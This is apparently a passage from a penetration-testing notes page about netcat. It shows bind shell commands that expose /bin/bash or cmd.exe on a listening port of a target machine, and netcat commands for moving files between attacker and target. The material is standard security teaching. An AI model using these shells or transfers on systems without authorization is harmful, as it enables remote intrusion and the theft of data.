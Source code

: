 **On the Target Machine (Listening):**

```sh
nc -lvnp 4444 -e /bin/bash
```

For Windows targets:

```sh
nc.exe -lvnp 4444 -e cmd.exe
```

**On the Attacker's Machine (Connecting):**

```sh
nc <target_ip> 4444
```

### 3. File Transfer

`netcat` can be used to transfer files between the attacker and the target machine.

**On the Receiving Machine:**

```sh
nc -lvnp 4444 > received_file
```

**On the Sending Machine:**

```sh
nc <receiver_ip> 4444 < file_to_send
```

**and use Watch to watch transferring**

```bash
watch -n 0.1 -d ls -la
```

{% hint style="info" %}
Advanced:\
If we want to download a folder, for example, that contains a lot of data Or Information's  , in reality we will not be able to transfer it in the same way.
{% endhint %}

There are many ways, but I will Just One Way Using Netcat&#x20;

## 1. Netcat

> You Will Compress The File And Then Transfer The Compressed File Which Holds A Lot Of Data

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>
